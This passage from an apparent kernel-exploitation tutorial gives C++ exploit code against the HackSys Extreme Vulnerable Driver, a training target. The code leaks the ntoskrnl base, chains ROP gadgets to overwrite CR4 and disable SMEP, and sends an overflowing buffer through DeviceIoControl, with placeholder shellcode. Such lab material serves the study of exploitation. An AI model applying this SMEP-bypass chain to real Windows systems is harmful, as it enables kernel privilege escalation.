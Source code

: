 With the base address, we can now add the gadget offsets to obtain a proper ROP chain. We update our exploit with this chain & a dummy value for CR4:

```cpp
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>
#include <Psapi.h>

#define QWORD ULONGLONG

QWORD getBaseAddr(LPCWSTR drvName) {
	LPVOID drivers[512];
	DWORD cbNeeded;
	int nDrivers, i = 0;
	if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
		WCHAR szDrivers[512];
		nDrivers = cbNeeded / sizeof(drivers[0]);
		for (i = 0; i < nDrivers; i++) {
			if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
				if (wcscmp(szDrivers, drvName) == 0) {
					return (QWORD)drivers[i];
				}
			}
		}
	}
	return 0;
}

int main()
{
	HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
	if (hDriver == INVALID_HANDLE_VALUE)
	{
		printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
		exit(1);
	}

	QWORD ntBase = getBaseAddr(L"ntoskrnl.exe");
	printf("[>] NTBase: %llx\n", ntBase);
	QWORD POP_RCX = ntBase + 0x3acd47;
	QWORD MOV_CR4_RCX = ntBase + 0x20a386;
	int index = 0;

	LPVOID uBuffer = VirtualAlloc(NULL, 2500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	LPVOID shellcode = VirtualAlloc(NULL, 500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlFillMemory(uBuffer, 2500, '\x41');
	RtlFillMemory(shellcode, 500, '\x90');

	QWORD* rop = (QWORD*)((QWORD)uBuffer + 2072);
	
	*(rop + index++) = POP_RCX;
	*(rop + index++) = 0x0;
	*(rop + index++) = MOV_CR4_RCX;
	*(rop + index++) = (QWORD)shellcode;

	DeviceIoControl(hDriver, 0x222003, (LPVOID)uBuffer, 2500, NULL, 0, NULL, NULL);

}
```
